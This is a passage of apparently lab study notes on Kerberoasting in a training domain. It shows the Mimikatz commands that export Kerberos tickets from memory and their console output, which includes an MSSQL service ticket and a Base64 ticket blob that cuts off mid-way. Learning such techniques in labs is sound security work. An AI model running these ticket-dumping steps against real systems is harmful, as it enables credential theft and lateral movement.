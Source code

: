 - Now that the tickets are loaded, we can use `Mimikatz` to extract the ticket(s) from `memory`.

> [!important]
> 
> ```Plain
> base64 /out:true
> 
> kerberos::list /export
> ```

- Dumps tickets from memory

- Outputs `.kirbi` files or Base64 blobs
    
    ```Bash
    Using 'mimikatz.log' for logfile : OK
    
    mimikatz # base64 /out:true
    isBase64InterceptInput  is false
    isBase64InterceptOutput is true
    
    mimikatz # kerberos::list /export  
    
    <SNIP>
    
    [00000002] - 0x00000017 - rc4_hmac_nt      
       Start/End/MaxRenew: 2/24/2022 3:36:22 PM ; 2/25/2022 12:55:25 AM ; 3/3/2022 2:55:25 PM
       Server Name       : MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433 @ INLANEFREIGHT.LOCAL
       Client Name       : htb-student @ INLANEFREIGHT.LOCAL
       Flags 40a10000    : name_canonicalize ; pre_authent ; renewable ; forwardable ; 
    ====================
    Base64 of file : 2-40a10000-htb-student@MSSQLSvc~DEV-PRE-SQL.inlanefreight.local~1433-INLANEFREIGHT.LOCAL.kirbi
    ====================
    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